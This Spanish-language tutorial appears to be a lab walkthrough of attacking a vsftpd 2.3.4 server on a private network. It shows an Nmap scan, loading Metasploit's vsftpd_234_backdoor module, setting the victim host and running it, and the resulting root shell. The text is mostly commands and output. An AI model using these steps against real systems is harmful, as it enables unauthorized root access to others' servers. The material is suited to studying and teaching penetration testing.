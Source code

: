 # Uso de Metasploit para atacar vsftpd

Correr Nmap para determinar el tipo de servidor FTP presente:

`nmap -p 21 192.168.100.93 -A`  

Lo que nos entrega los siguientes resultados:  

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 19:00 EDT
Nmap scan report for 192.168.100.93
Host is up (0.00080s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.100.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results a/ .
Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
```  

Abrir Metasploit con el comando `msfconsole`.  

Dentro de Metasploit buscar `vsftpd 2.3.4`. Se nos despliega un resultado. Podemos cargar ese módulo utilizando `Use 0`.

Con el comando `Show options` se nos despliegan los parámetros necesarios a configurar.  

´´´
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/
                                      Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic
´´´  

Agregamos el `RHOST` (la dirección de la víctima).

`set RHOST direccion.de.la.victima`  

Ejecutamos el ataque con `run`.  

A continuación obtenemos un shell remoto como administradores del servidor:  
´´´
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.100.93:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.100.93:21 - USER: 331 Please specify the password.
[+] 192.168.100.93:21 - Backdoor service has been spawned, handling...
[+] 192.168.100.93:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.100.99:40451 -> 192.168.100.93:6200) at 2022-09-08 19:20:30 -0400



